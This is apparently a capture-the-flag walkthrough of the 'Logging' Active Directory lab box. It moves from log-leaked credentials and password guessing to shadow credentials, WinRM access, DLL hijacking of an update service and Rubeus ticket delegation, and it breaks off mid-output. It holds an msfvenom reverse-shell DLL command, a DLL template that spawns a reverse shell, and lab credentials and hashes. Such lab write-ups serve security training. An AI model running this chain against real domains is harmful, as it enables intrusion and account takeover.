





# Logging
## Machine info
As is common in real life pentests, you will start the Logging box with credentials for the following account wallace.everette / Welcome2026@

```python
wallace.everette:Welcome2026@
```

## Host file setup
```python
sudo nxc smb 10.129.245.130 --generate-hosts-file /etc/hosts
SMB         10.129.245.130  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True
```

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT -Pn dc01.logging.htb -vv

Nmap scan report for dc01.logging.htb (10.129.245.130)
Host is up, received user-set (0.014s latency).
rDNS record for 10.129.245.130: DC01.logging.htb
Scanned at 2026-10-06 17:06:25 BST for 10s
Not shown: 65505 closed tcp ports (conn-refused)
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
80/tcp    open  http             syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5985/tcp  open  wsman            syn-ack
8530/tcp  open  unknown          syn-ack
8531/tcp  open  unknown          syn-ack
9389/tcp  open  adws             syn-ack
47001/tcp open  winrm            syn-ack
49664/tcp open  unknown          syn-ack
49665/tcp open  unknown          syn-ack
49666/tcp open  unknown          syn-ack
49667/tcp open  unknown          syn-ack
49673/tcp open  unknown          syn-ack
49696/tcp open  unknown          syn-ack
49697/tcp open  unknown          syn-ack
49698/tcp open  unknown          syn-ack
49705/tcp open  unknown          syn-ack
49742/tcp open  unknown          syn-ack
49752/tcp open  unknown          syn-ack
49802/tcp open  unknown          syn-ack
49832/tcp open  unknown          syn-ack

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.79 seconds
```

### Nmap
```python
nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8530,8531 -A --min-rate=2000 -sT -Pn dc01.logging.htb
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-06 17:08 +0100
Nmap scan report for dc01.logging.htb (10.129.245.130)
Host is up (0.013s latency).
rDNS record for 10.129.245.130: DC01.logging.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-06 23:08:12Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-10-06T23:09:12+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-24T16:40:59
|_Not valid after:  2106-04-24T16:40:59
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-24T16:40:59
|_Not valid after:  2106-04-24T16:40:59
|_ssl-date: 2026-10-06T23:09:12+00:00; +7h00m01s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-24T16:40:59
|_Not valid after:  2106-04-24T16:40:59
|_ssl-date: 2026-10-06T23:09:12+00:00; +7h00m01s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-10-06T23:09:12+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-24T16:40:59
|_Not valid after:  2106-04-24T16:40:59
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8530/tcp open  http          Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
8531/tcp open  ssl/unknown
| ssl-cert: Subject: 
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.logging.htb
| Not valid before: 2026-04-24T15:49:07
|_Not valid after:  2027-04-24T15:49:07
|_ssl-date: 2026-10-06T23:09:12+00:00; +7h00m01s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10|11|2012|2022|2016 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2019 (97%), Microsoft Windows 10 1909 - 2004 (96%), Microsoft Windows 10 1709 - 22H2 (94%), Microsoft Windows 10 1909 (92%), Microsoft Windows 11 24H2 - 25H2 (92%), Microsoft Windows Server 2012 R2 (92%), Microsoft Windows Server 2022 (92%), Microsoft Windows Server 2016 (90%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (89%), Microsoft Windows 10 21H2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## System time
```python
ntpdate dc01.logging.htb                                                             
2026-10-07 00:40:42.675307 (+0100) +25200.291713 +/- 0.007401 dc01.logging.htb 10.129.245.130 s1 no-leap
CLOCK: step_systime: Operation not permitted
```

The system is running at +7h
## SMB (445)
Null auth enabled cannot use it to enumerate

Guest account is also disabled

### Using provided credentials
#### Shares
```python
❯❯❯ nxc smb dc01.logging.htb -u 'wallace.everette' -p 'Welcome2026@' --shares
SMB         10.129.245.130  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.245.130  445    DC01             [+] logging.htb\wallace.everette:Welcome2026@ 
SMB         10.129.245.130  445    DC01             [*] Enumerated shares
SMB         10.129.245.130  445    DC01             Share           Permissions     Remark
SMB         10.129.245.130  445    DC01             -----           -----------     ------
SMB         10.129.245.130  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.245.130  445    DC01             C$                              Default share
SMB         10.129.245.130  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.245.130  445    DC01             Logs            READ            
SMB         10.129.245.130  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.245.130  445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.245.130  445    DC01             WSUSTemp                        A network share used by Local Publishing from a Remote WSUS Console Instance.
```

#### Users
```python
❯❯❯ nxc smb dc01.logging.htb -u 'wallace.everette' -p 'Welcome2026@' --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
DC01$
svc_recovery
jaylee.clifton
monique.chip
kyson.abel
fable.milford
wellington.kylan
serina.philander
wallace.everette
toby.brynleigh
msa_health$
```

Ill use `--rid-brute` to dump the users since it will also get machine accounts

Also this password provided is not used on any other user accounts

## `Logs` share contains overly verbose output

```python
# use Logs
# ls
drw-rw-rw-          0  Fri Apr 17 00:10:09 2026 .
drw-rw-rw-          0  Fri Apr 17 00:10:09 2026 ..
-rw-rw-rw-       1294  Fri Apr 17 00:10:09 2026 Audit_Heartbeat.log
-rw-rw-rw-       8488  Fri Apr 17 00:10:09 2026 IdentitySync_Trace_20260219.log
-rw-rw-rw-        468  Fri Apr 17 00:10:09 2026 Service_State.log
-rw-rw-rw-       1170  Fri Apr 24 17:59:43 2026 TaskMonitor.log

# rget *
[*] Downloading Audit_Heartbeat.log
[*] Downloading IdentitySync_Trace_20260219.log
[*] Downloading Service_State.log
[*] Downloading TaskMonitor.log
# 
```

Found some log files, ill download them all

```python
❯❯❯ cat IdentitySync_Trace_20260219.log 

...[SNIP]...

[2026-02-09 03:00:03.125] [PID:4102] [Thread:04] VERBOSE - ConnectionContext Dump: { Domain: "logging.htb", Server: "DC01", SSL: "False", BindUser: "LOGGING\svc_recovery", BindPass: "Em3rg3ncyPa$$2025", Timeout: 30 }
[2026-02-19 03:00:03.488] [PID:4102] [Thread:04] ERROR - System.DirectoryServices.Protocols.LdapException: A local error occurred.
   at System.DirectoryServices.Protocols.LdapConnection.Bind(NetworkCredential credential)
   at logging.IdentitySync.Engine.LdapProvider.Connect()
   --- Server Error Details ---
   Server error: 8009030C: LdapErr: DSID-0C090569, comment: AcceptSecurityContext error, data 52e, v4563
   Hex Error: 0x31 (LDAP_INVALID_CREDENTIALS)
   Win32 Error: 49 (Invalid Credentials)
   ----------------------------                                                            
```

Found some hardcoded credentials

## Attempting auth on `svc_recovery` 

```python
svc_recovery:Em3rg3ncyPa$$2025
```

The other log files didnt really contain anything interesting

```python
❯❯❯ nxc smb dc01.logging.htb -u 'svc_recovery' -p 'Em3rg3ncyPa$$2025' 
SMB         10.129.245.130  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.245.130  445    DC01             [-] logging.htb\svc_recovery:Em3rg3ncyPa$$2025 STATUS_ACCOUNT_RESTRICTION
```

There is a restriction on this account

There is nothing in this users account applying this restriction such as logon hours, so this likely isnt the correct password for this account

I have also tries spraying this password across the whole domain and did not find anything

## Compromising `svc_recovery`

Looking at the password for the account `svc_recovery` i see a year, ill try updating this to the current year 2026

```python
faketime -f +7h nxc smb dc01.logging.htb -u users.txt -p 'Em3rg3ncyPa$$2026' --continue-on-success -k
SMB         dc01.logging.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.logging.htb 445    DC01             [-] logging.htb\Administrator:Em3rg3ncyPa$$2026 KDC_ERR_PREAUTH_FAILED 
SMB         dc01.logging.htb 445    DC01             [-] logging.htb\Guest:Em3rg3ncyPa$$2026 KDC_ERR_CLIENT_REVOKED 
SMB         dc01.logging.htb 445    DC01             [-] logging.htb\krbtgt:Em3rg3ncyPa$$2026 KDC_ERR_CLIENT_REVOKED 
SMB         dc01.logging.htb 445    DC01             [-] logging.htb\DC01$:Em3rg3ncyPa$$2026 KDC_ERR_PREAUTH_FAILED 
SMB         dc01.logging.htb 445    DC01             [+] logging.htb\svc_recovery:Em3rg3ncyPa$$2026 
SMB         dc01.logging.htb 445    DC01             [-] logging.htb\jaylee.clifton:Em3rg3ncyPa$$2026 KDC_ERR_PREAUTH_FAILED 
SMB         dc01.logging.htb 445    DC01             [-] logging.htb\monique.chip:Em3rg3ncyPa$$2026 KDC_ERR_PREAUTH_FAILED 
SMB         dc01.logging.htb 445    DC01             [-] logging.htb\kyson.abel:Em3rg3ncyPa$$2026 KDC_ERR_PREAUTH_FAILED 
SMB         dc01.logging.htb 445    DC01             [-] logging.htb\fable.milford:Em3rg3ncyPa$$2026 KDC_ERR_PREAUTH_FAILED 
SMB         dc01.logging.htb 445    DC01             [-] logging.htb\wellington.kylan:Em3rg3ncyPa$$2026 KDC_ERR_PREAUTH_FAILED 
SMB         dc01.logging.htb 445    DC01             [-] logging.htb\serina.philander:Em3rg3ncyPa$$2026 KDC_ERR_PREAUTH_FAILED 
SMB         dc01.logging.htb 445    DC01             [-] logging.htb\wallace.everette:Em3rg3ncyPa$$2026 KDC_ERR_PREAUTH_FAILED 
SMB         dc01.logging.htb 445    DC01             [-] logging.htb\toby.brynleigh:Em3rg3ncyPa$$2026 KDC_ERR_PREAUTH_FAILED 
SMB         dc01.logging.htb 445    DC01             [-] logging.htb\msa_health$:Em3rg3ncyPa$$2026 KDC_ERR_PREAUTH_FAILED 
```

Since i think `svc_recovery` is in protected users ill have to use kerberos and with kerberos ill also have to sync time with the DC

This user is now compromised



This user also has GenericWrite on the `msa_health$` user

## Compromising `msa_health$`

After checking the exact attributes i have write on using bloodyAD i see the key credential link attribute which means i can do a shadow credential attack

```python
❯❯❯ bloodyAD --host dc01.logging.htb -d logging.htb -u 'svc_recovery' -p 'Em3rg3ncyPa$$2026' -k get writable --detail

distinguishedName: CN=msa_health,CN=Managed Service Accounts,DC=logging,DC=htb
...[SNIP]...
msDS-KeyCredentialLink: WRITE
```

### Shadow credentials
```python
faketime -f +7h bloodyAD --host dc01.logging.htb -d logging.htb -u 'svc_recovery' -p 'Em3rg3ncyPa$$2026' -k add shadowCredentials 'msa_health$'
[+] KeyCredential generated with following sha256 of RSA key: ec53b04dbfd8e509b7daa3303355d54125123aaa5ccc4d4ec0b6421d3af52a41
[+] TGT stored in ccache file msa_health_jh.ccache

NT: 603fc24ee01a9409f83c9d1d701485c5
```

I now have an NT hash for this user

```python
❯❯❯ nxc smb dc01.logging.htb -u msa_health$ -H '603fc24ee01a9409f83c9d1d701485c5'        
SMB         10.129.245.130  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.245.130  445    DC01             [+] logging.htb\msa_health$:603fc24ee01a9409f83c9d1d701485c5
```

This user is now compromised

## Enumeration as `msa_health$`



This user is in remote management users

## Access over winrm as `msa_health$`

```python
❯❯❯ evil-winrm-py -i dc01.logging.htb -u msa_health$ -H '603fc24ee01a9409f83c9d1d701485c5'
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to 'dc01.logging.htb:5985' as 'msa_health$'
evil-winrm-py PS C:\Users\msa_health$\Documents> whoami
logging\msa_health$
evil-winrm-py PS C:\Users\msa_health$\Documents>
```

I now have a shell on the domain controller

## `UpdateChecker` LPE leads to compromise of `jaylee.clifton`

```python
evil-winrm-py PS C:\Users\msa_health$\Documents> type monitor.ps1
<#
.SYNOPSIS
    Monitors the status of the "UpdateChecker Agent" scheduled task.
    Uses COM interface to avoid CIM/WMI permission issues.
#>

$TaskName = "UpdateChecker Agent"
$LogPath = "C:\Share\Logs\TaskMonitor.log"
$Timestamp = Get-Date -Format "yyyy-MM-dd HH:mm:ss"

try {
    $service = New-Object -ComObject "Schedule.Service"
    $service.Connect()
    $task = $service.GetFolder("\").GetTask($TaskName)

    $State = switch ($task.State) {
        1 { "Disabled" }
        2 { "Queued" }
        3 { "Ready" }
        4 { "Running" }
        5 { "Disabled" }
        6 { "Unknown" }
        default { "Unknown" }
    }

    if ($State -ne "Ready" -and $State -ne "Running") {
        $Message = "[$Timestamp] WARN  - Task [$TaskName] is in an unexpected state: $State"
    }
    else {
        $Message = "[$Timestamp] INFO  - Task [$TaskName] health check: OK (State: $State)"
    }
}
catch {
    $Message = "[$Timestamp] ERROR - Failed to query task [$TaskName]. Exception: $($_.Exception.Message)"
}

Add-Content -Path $LogPath -Value $Message
evil-winrm-py PS C:\Users\msa_health$\Documents>
```

This looks like its running a scheduled task

Ill have a look around the filesystem to see where this `UpdateChecker` could be running from

It looks like theres more info in `programdata`

But it looks the .exe itself is in `Program Files`

```python
evil-winrm-py PS C:\ProgramData\UpdateMonitor\Logs> type monitor.log
[2026-04-16 16:41:18] Starting Sentinel Update Check...
[2026-04-16 16:41:18] Checking for update on core server...
[2026-04-16 16:41:18] Info: Core did not find file Settings_Update.zip
[2026-04-16 16:41:18] Last status: File not found on core
[2026-04-16 16:41:18] Checking for update on local server...
[2026-04-16 16:41:18] No updates found locally: C:\ProgramData\UpdateMonitor\Settings_Update.zip.
[2026-04-16 16:41:18] Loading update applier: C:\Program Files\UpdateMonitor\bin\settings_update.dll
[2026-04-16 16:41:18] Failed to load settings_update.dll. Error code: 126
[2026-04-16 16:41:18] Update check completed.

...[SNIP]...
```

So it looks like the service is trying to load a .zip file and a .dll file from the filesystem, these files dont currently exist, but its possible i can make a malicious one

`ProgramData` is writable by any user too

So after some research i see it basically loads a .zip from the path in the snippet above, it then unzips the file and placed the dll into the bin directory and loads it, so there is a potential for DLL hijacking here

```python
❯❯❯ cat settings_update.cpp 
#include <windows.h>
#include <stdlib.h>

// This ensures the compiler exports the exact name without mangling
extern "C" {
    __declspec(dllexport) void PreUpdateCheck() {
        // Your code execution payload goes here
        // Example: Spawning a command or reverse shell
        system("<powershell base64 encoded reverse shell>");
    }
}

// Optional but good practice for stability
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

Ill get a powershell reverse shell from revshells.com then place it in the code

```python
❯❯❯ x86_64-w64-mingw32-g++ -shared -o settings_update.dll settings_update.cpp -lwinmm
```

Ill then compile the code into the DLL

```python
❯❯❯ zip Settings_Update.zip settings_update.dll 
adding: settings_update.dll (deflated 65%)
```

Then ill zip the DLL

```python
❯❯❯ penelope -p 1337                                        
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.86.128 • 10.10.14.61
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

Ill then start a listener

```python
evil-winrm-py PS C:\ProgramData\UpdateMonitor> upload Settings_Update.zip .
Uploading /home/kali/htb/logging/Settings_Update.zip: 100%|█████████████| 30.5k/30.5k [00:00<00:00, 70.3kB/s]
[+] File uploaded successfully as: C:\ProgramData\UpdateMonitor\Settings_Update.zip
evil-winrm-py PS C:\ProgramData\UpdateMonitor
```

Then ill upload the .zip to the correct dir like it says in the logs

```python
[2026-10-06 18:41:15] Update failed: Access to the path 'C:\ProgramData\UpdateMonitor\Settings_Update.zip' is denied.
```

After waiting a few minutes and getting nothing i check the logs and see that there is a different error, this tells me it detected the zip file but had no access over it so it couldnt unzip it, this tells me this service is not running as the administrator, because the administrator would have full control over the file and be able to unzip it

```python
evil-winrm-py PS C:\ProgramData\UpdateMonitor> icacls "C:\ProgramData\UpdateMonitor\Settings_Update.zip" /grant Everyone:F
processed file: C:\ProgramData\UpdateMonitor\Settings_Update.zip
Successfully processed 1 files; Failed processing 0 files
evil-winrm-py PS C:\ProgramData\UpdateMonitor>
```

Ill then just grant every user full control over it, so whoever this service runs as can unzip it

```python
[2026-10-06 18:50:15] Starting Sentinel Update Check...
[2026-10-06 18:50:15] Checking for update on core server...
[2026-10-06 18:50:15] Info: Core did not find file Settings_Update.zip
[2026-10-06 18:50:15] Last status: File not found on core
[2026-10-06 18:50:15] Checking for update on local server...
[2026-10-06 18:50:15] Successfully unzipped update to C:\Program Files\UpdateMonitor\bin\
[2026-10-06 18:50:15] Loading update applier: C:\Program Files\UpdateMonitor\bin\settings_update.dll
[2026-10-06 18:50:15] Failed to load settings_update.dll. Error code: 193
[2026-10-06 18:50:15] Update check completed.
```

Then ill wait a few more minutes and i see this in the logs, this time it managed to extract the file but still did not execute

After researching this error, it looks like it means it needs to compiled for a 32-bit system

```python
i686-w64-mingw32-g++ -shared -o settings_update.dll settings_update.cpp
```

Ill just recompile the code to make the 32-bit DLL, then ill rezip it once again

But there is still nothing, ill try just using a msfvenom DLL as well

```python
❯❯❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.61 LPORT=1337 -f dll -a x86 -o settings_update.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
Saved as: settings_update.dll
```

Ill make the payload

```python
❯❯❯ zip Settings_Update.zip settings_update.dll
  adding: settings_update.dll (deflated 80%)
```

Ill rezip it

```python
evil-winrm-py PS C:\ProgramData\UpdateMonitor> upload Settings_Update.zip .
Uploading /home/kali/htb/logging/Settings_Update.zip: 100%|█████████████| 1.96k/1.96k [00:00<00:00, 32.6kB/s]
[+] File uploaded successfully as: C:\ProgramData\UpdateMonitor\Settings_Update.zip
evil-winrm-py PS C:\ProgramData\UpdateMonitor> icacls "C:\ProgramData\UpdateMonitor\Settings_Update.zip" /grant Everyone:F
processed file: C:\ProgramData\UpdateMonitor\Settings_Update.zip
Successfully processed 1 files; Failed processing 0 files
evil-winrm-py PS C:\ProgramData\UpdateMonitor>
```

Ill upload it and grant all users full control over the file so it can be unzipped

```python
❯❯❯ penelope -p 1337
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.86.128 • 10.10.14.61
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => DC01 10.129.245.130 Microsoft_Windows_Server_2019_Standard-x64-based_PC 👤 logging\jaylee.clifton 😍️ Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/DC01~10.129.245.130-Microsoft_Windows_Server_2019_Standard-x64-based_PC/2026_10_06-20_23_18-149.log
──────────────────────────────────────────────────────────────────────────────────────────────────────────────
C:\Windows\system32>whoami
whoami
logging\jaylee.clifton

C:\Windows\system32>
```

Then after a few minutes i get a connection back

## Enumeration as `jaylee.clifton`

Bloodhound categorizes this user as a tier zero operator



```python
PS C:\Users\jaylee.clifton\Documents\Tickets> dir
dir


    Directory: C:\Users\jaylee.clifton\Documents\Tickets


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/16/2026   7:27 PM           2453 Incident_4922_WSUS_Remediation_ViewExport.html                        


PS C:\Users\jaylee.clifton\Documents\Tickets> 
```

There is an interesting html page here

Ill move this to programdata so i can get it

```python
PS C:\Users\jaylee.clifton\Documents\Tickets> cp Incident_4922_WSUS_Remediation_ViewExport.html C:\ProgramData\
cp Incident_4922_WSUS_Remediation_ViewExport.html C:\ProgramData\

PS C:\Users\jaylee.clifton\Documents\Tickets> icacls "C:\ProgramData\Incident_4922_WSUS_Remediation_ViewExport.html /grant Everyone:F
icacls "C:\ProgramData\Incident_4922_WSUS_Remediation_ViewExport.html" /grant Everyone:F
processed file: C:\ProgramData\Incident_4922_WSUS_Remediation_ViewExport.html
Successfully processed 1 files; Failed processing 0 files
PS C:\Users\jaylee.clifton\Documents\Tickets> 
```

Ill copy the file over then give everyone full control over it

```python
evil-winrm-py PS C:\ProgramData> download Incident_4922_WSUS_Remediation_ViewExport.html .
Downloading C:\ProgramData\Incident_4922_WSUS_Remediation_ViewExport.html: 64.0kB [00:00, 1.33GB/s]          
[+] File downloaded successfully and saved as: /home/kali/htb/logging/Incident_4922_WSUS_Remediation_ViewExport.html
```

Then using my evil-winrm session i can download the file



I dont have the credentials for `jaylee.clifton` as of yet, there is the option to get rubeus on the system then use it to get a ticket

## Uploading Rubeus to get a valid TGT as `jaylee.clifton`

```python
evil-winrm-py PS C:\ProgramData> upload Rubeus.exe .
Uploading /home/kali/htb/logging/Rubeus.exe: 512kB [00:01, 458kB/s]                                          
[+] File uploaded successfully as: C:\ProgramData\Rubeus.exe

evil-winrm-py PS C:\ProgramData> icacls "C:\ProgramData\Rubeus.exe" /grant Everyone:F
processed file: C:\ProgramData\Rubeus.exe
Successfully processed 1 files; Failed processing 0 files
```

Ill upload rubeus and grant all users full control over the file, ill upload using my winrm session to make the upload process easier

```python
PS C:\ProgramData> .\Rubeus.exe tgtdeleg /nowrap
.\Rubeus.exe tgtdeleg /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/DC01.logging.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation request success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
